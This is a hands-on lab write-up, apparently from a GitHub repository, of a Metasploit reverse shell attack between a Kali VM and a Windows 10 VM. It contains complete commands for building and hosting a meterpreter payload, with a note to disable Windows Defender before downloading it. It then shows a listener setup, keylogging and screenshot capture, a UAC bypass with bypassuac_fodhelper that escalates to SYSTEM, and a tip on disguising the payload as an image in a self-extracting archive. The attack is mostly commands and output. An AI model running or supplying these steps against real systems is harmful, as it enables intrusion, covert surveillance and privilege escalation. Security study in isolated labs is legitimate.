

# Reverse Shell Experiment using Metasploit (Educational)

## Disclaimer
- This experiment was conducted strictly for **educational and ethical purposes** inside a safe, isolated virtual lab environment.  
- No unauthorized systems were harmed. **Do not replicate** outside of a legal test environment.

---

## Objective
To explore how a Windows reverse shell works using Metasploit, test various post-exploitation modules (e.g., keylogging, screenshot capture), and observe behavior under a controlled setup.

---

## Lab Environment

- **Attacking Machine**: Kali Linux (VirtualBox VM) 
- **Target Machine**: Windows 10 (VirtualBox VM) 
- **Tools Used**: Metasploit Framework, Apache2

---

## Network Configuration

- Configured **NAT Network** in VirtualBox 
  
  
  

- Checked Kali Linux IP using `ifconfig`: `10.0.2.4`  
  

- Checked Windows IP using `ipconfig`: `10.0.2.15`  
  

---

## Payload Creation

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=4444 -f exe -o ~/Desktop/shellcode.exe
```
- Move payload to Apache directory:
```
sudo cp ~/Desktop/shellcode.exe -d /var/www/html/Downloads/
```
---

## Host the Payload
```
sudo service apache2 start
```
- Access payload from Windows:
	- **Note: Turn off Windows `Virus & Threat Protection` before downloading the payload**

	- URL: http://10.0.2.4/Downloads/shellcode.exe

---

## Run Listener in Metasploit
```
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.0.2.4
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

---

## Victim Executes Payload
- After running the payload, a meterpreter session will be created
```
[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] Sending stage (175686 bytes) to 10.0.2.15
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.15:49958) at 2025-05-14 13:36:03 -0400
```

---

## Post Exploitation
- Keylogging
```
meterpreter > keyscan_start
meterpreter > keyscan_dump
Dumping captured keystrokes...
<Shift>I am <Shift>Katak <Shift>Bodo, <Shift>PL<^H>lease make me clever
meterpreter > keyscan_stop
```
- Screenshot
```
meterpreter > screenshot
Screenshot saved to: /home/kali/WOmGThKH.jpeg
```
  

---

## Attempt Privilege Escalation (Failed)
```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: 1346 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
[-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
```

## Use Exploit Suggester
```bash
meterpreter > background
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > show options
Module options (post/multi/recon/local_exploit_suggester):

   Name          Current Setti  Required  Description
                 ng
   ----          -------------  --------  -----------
   SESSION                      yes       The session to run
                                           this module on
   SHOWDESCRIPT  false          yes       Displays a detaile
   ION                                    d description for
                                          the available expl
                                          oits
msf6 post(multi/recon/local_exploit_suggester) > sessions 

Active sessions
===============

  Id  Name  Type            Information      Connection
  --  ----  ----            -----------      ----------
  1         meterpreter x8  DESKTOP-3UTST7A  10.0.2.4:4444 -
            6/windows       \liang @ DESKTO  > 10.0.2.15:499
                            P-3UTST7A        58 (10.0.2.15)
msf6 post(multi/recon/local_exploit_suggester) > set session 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.0.2.15 - Collecting local exploits for x86/windows...
[*] 10.0.2.15 - 188 exploit checks are being tried...
[+] 10.0.2.15 - exploit/windows/local/bypassuac_fodhelper: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.0.2.15 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_fodhelper                      Yes                      The target appears to be vulnerable.                                                         
 2   exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.   
 .
 .
 .
 .
```
- Found potential exploit:
	- `exploit/windows/local/bypassuac_fodhelper`

---

## Privilege Excalation with bypassuac_fodhelper
```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/bypassuac_fodhelper
msf6 exploit(windows/local/bypassuac_fodhelper) > show options 
Module options (exploit/windows/local/bypassuac_fodhelper):

   Name     Current Settin  Required  Description
            g
   ----     --------------  --------  -----------
   SESSION                  yes       The session to run thi
                                      s module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Settin  Required  Description
             g
   ----      --------------  --------  -----------
   EXITFUNC  process         yes       Exit technique (Accep
                                       ted: '', seh, thread,
                                        process, none)
   LHOST     10.0.2.4        yes       The listen address (a
                                       n interface may be sp
                                       ecified)
   LPORT     4444            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86

msf6 exploit(windows/local/bypassuac_fodhelper) > set session 1

msf6 exploit(windows/local/bypassuac_fodhelper) > run

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\Sysnative\cmd.exe /c C:\Windows\System32\fodhelper.exe
[*] Sending stage (175686 bytes) to 10.0.2.15
[*] Meterpreter session 2 opened (10.0.2.4:4444 -> 10.0.2.15:50163) at 2025-05-14 13:50:48 -0400
[*] Cleaining up registry keys ...

meterpreter > getuid
Server username: DESKTOP-3UTST7A\liang
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

---

## Hiding Shellcode in Image
- Used `WinRAR` to archeive both the payload and an image.

- Put both of the files in `Run After Extraction` section

---

## Reference
- https://youtu.be/n7U0cWayDfM?si=gemzPn6oLLe-hVJV
- https://youtu.be/vReAkOq-59I?si=eEyOfpBMyFO_RkW3
